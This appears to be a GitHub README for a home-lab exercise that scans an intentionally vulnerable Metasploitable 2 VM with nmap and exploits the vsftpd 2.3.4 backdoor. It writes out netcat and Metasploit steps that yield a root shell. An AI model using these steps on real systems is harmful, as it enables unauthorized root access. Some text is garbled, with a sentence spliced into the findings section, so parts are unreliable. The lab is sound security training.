

# Home_lab_attak_similation
This lab present a simulation of exploiting a vernurability on ftp protocole (vsftp 2.3.4)
#  Isolated Virtual Network and Attack Simulation


A self-contained, segmented home lab built to practice reconnaissance, service enumeration, exploitation, and remediation — documented end to end.

##  Disclaimer
All activities conducted as part of this project were carried out within an isolated virtual network ("host-only" mode), targeting an intentionally vulnerable machine (Metasploitable 2) that I own and control. No testing was performed on systems for which I do not have explicit authorization. The techniques presented here are for educational purposes and are intended to strengthen defensive security.

---

##  Contents
1. [Objective](#1-objective)
2. [Lab Architecture](#2-lab-architecture)
3. [Environment Setup](#3-environment-setup)
4. [Phase 1 — Reconnaissance & Enumeration](#4-phase-1--reconnaissance--enumeration)
5. [Phase 2 — Exploitation](#5-phase-2--exploitation)
6. [Findings & Impact](#6-findings--impact)
7. [Mitigation & Remediation](#7-mitigation--remediation)
8. [Lessons Learned](#8-lessons-learned)
9. [Repository Structure](#9-repository-structure)
10. [Appendix — Command Cheat Sheet](#10-appendix--command-cheat-sheet)

---

## 1. Objective
Build an isolated virtual environment to:
- Practice **network segmentation** by placing an attacker and a vulnerable target on a non-routable virtual LAN.
- Perform **port scanning and service enumeration** with Nmap to map the target's attack surface.
- Exploit a confirmed vulnerability to demonstrate real-world impact.
- Document **attack vectors and mitigation steps** as a repeatable, defensive-minded report.

---

## 2. Lab Architecture

**Design principle:** 
- The vulnerable target must never touch the internet or my physical LAN.
- The attacker machine gets a second adapter for updates only.
- This is the segmentation that makes the lab safe to run.

### Network Plan

| VM | Role | Adapter 1 | Adapter 2 | IP Address |
| :--- | :--- | :--- | :--- | :--- |
| **Kali Linux** | Attacker | NAT (Internet for tooling) | Host-Only (`vboxnet0`) | `192.168.56.103` / `10.0.2.15` |
| **Metasploitable 2** | Target | Host-Only (`vboxnet0`) | — | `192.168.56.4` |

### Topology


---

## 3. Environment Setup

### 3.1 Host-Only Network (VirtualBox)
- **Path:** File → Host Network Manager → Create
- **Adapter:** `vboxnet0`
- **IPv4:** `192.168.56.1/24` (VirtualBox default)
- **DHCP:** Enabled (or assign static IPs manually)

### 3.2 Metasploitable 2
| Setting | Value |
| :--- | :--- |
| Type / Version | Linux / Other (64-bit) |
| RAM | 512 MB |
| Disk | Existing `.vmdk` (Metasploitable.vmdk) |
| Network | Adapter 1 → Host-Only → `vboxnet0` |
| Default creds | `msfadmin` / `msfadmin` |

### 3.3 Connectivity Verification

**Kali Linux (`ifconfig`):**

```text
(kali@kali)-[~] $ ifconfig eth1
eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.56.103  netmask 255.255.255.0  broadcast 192.168.56.255
        inet6 fe80::db05:1d1d:45b3:6ef9  prefixlen 64  scopeid 0x20<link>
        ether 08:00:27:bb:7c:d4  txqueuelen 1000  (Ethernet)
```
        
**Metasploitable (`ifconfig`):**
```text
`msfadmin@metasploitable:~$ ifconfig eth0
eth0      Link encap:Ethernet  HWaddr 08:00:27:c9:56:d0  
          inet addr:192.168.56.4  Bcast:192.168.56.255  Mask:255.255.255.0
```

**Ping Test:**

```
(kali@kali)-[~] $ ping -c 4 192.168.56.4
PING 192.168.56.4 (192.168.56.4) 56(84) bytes of data.
64 bytes from 192.168.56.4: icmp_seq=1 ttl=64 time=8.22 ms
64 bytes from 192.168.56.4: icmp_seq=2 ttl=64 time=2.97 ms
64 bytes from 192.168.56.4: icmp_seq=3 ttl=64 time=1.38 ms
64 bytes from 192.168.56.4: icmp_seq=4 ttl=64 time=1.91 ms`
```
### 4. Phase 1 — Reconnaissance & Enumeration

Goal: Map open ports, identify service versions, and surface known-vulnerable software.

### 4.1 Host Discovery / Top-1000 Port Scan

**Command**: nmap 192.168.56.4
```
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
23/tcp   open  telnet
25/tcp   open  smtp
53/tcp   open  domain
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
512/tcp  open  exec
513/tcp  open  login
514/tcp  open  shell
1099/tcp open  rmiregistry
1524/tcp open  ingresslock
2049/tcp open  nfs
2121/tcp open  ccproxy-ftp
3306/tcp open  mysql
5432/tcp open  postgresql
5900/tcp open  vnc
6000/tcp open  X11
6667/tcp open  irc
8009/tcp open  ajp13
8180/tcp open  unknown
```
### 4.2 Service & OS Detection

**Command**: sudo nmap -sV -O 192.168.56.4
```
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
23/tcp   open  telnet      Linux telnetd
25/tcp   open  smtp        Postfix smtpd
53/tcp   open  domain      ISC BIND 9.4.2
80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
1524/tcp open  bindshell   Metasploitable root shell
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
...
```

OS details: Linux 2.6.9 - 2.6.33
Observation: The FTP service is running vsftpd 2.3.4, a known backdoored version.

### 4.3 Full Port Scan

**Command**: nmap -p- 192.168.56.4

(Revealed additional non-standard ports including 3632/distccd and various high ports)

### 4.4 Vulnerability Script Scan

**Command**: sudo nmap --script vuln -p 21 192.168.56.4
```
PORT   STATE SERVICE
21/tcp open  ftp
| ftp-vsftpd-backdoor: 
|   VULNERABLE:
|   vsFTPd version 2.3.4 backdoor
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2011-2523
|     Exploit results:
|       Shell command: id
|       Results: uid=0(root) gid=0(root)`
```
## 5. Phase 2 — Exploitation

### 5.1 Target Selection: vsftpd 2.3.4 backdoor (CVE-2011-2523)

This release was compromised at the source: a malicious addition opens a root shell on port 6200 when a username containing :) is sent during authentication.

**Method 1 — Manual Exploitation (Reliable)**

Trigger the backdoor on port 21:

```
(kali@kali)-[~] $ nc 192.168.56.4 21
220 (vsFTPd 2.3.4)
USER test:)
331 Please specify the password.
PASS passtest```text
```
Connect to the root shell on port 6200:

```
(kali@kali)-[~] $ nc 192.168.56.4 6200
id
uid=0(root) gid=0(root)
whoami
root
```

**Method 2 — Metasploit (Automated)**
```
msf > search vsftpd 2.3.4
msf > use exploit/unix/ftp/vsftpd_234_backdoor
msf exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 192.168.56.4
msf exploit(unix/ftp/vsftpd_234_backdoor) > run`
(Note: On this specific setup, the automated payload failed to fetch, hence the manual Netcat metho
```

## 6. Findings & Impact

Findings are grouped by evidence tier:

 **Validated**: Confirmed by exploitation in this lab. Impact is demonstrated, not inferred.

 **Observed**: Surfaced during enumeration but not exploited. Impact is inferred and recommended for future scope.d was used successfully).
 
### 6.1 Validated Findings (Exploited in this lab)

| ID | Finding | Port / Service | CVE | Severity | Impact Demonstrated |
| :--- | :--- | :--- | :--- | :--- | :--- |
| F-01 | vsftpd 2.3.4 backdoor | 21 / FTP | CVE-2011-2523 | 🔴 Critical |	| Unauthenticated remote root shell (confirmed with id). |
| F-02 | Exposed bindshell | 1524 / TCP | — | 🔴 Critical | Instant root shell, no exploit required. |

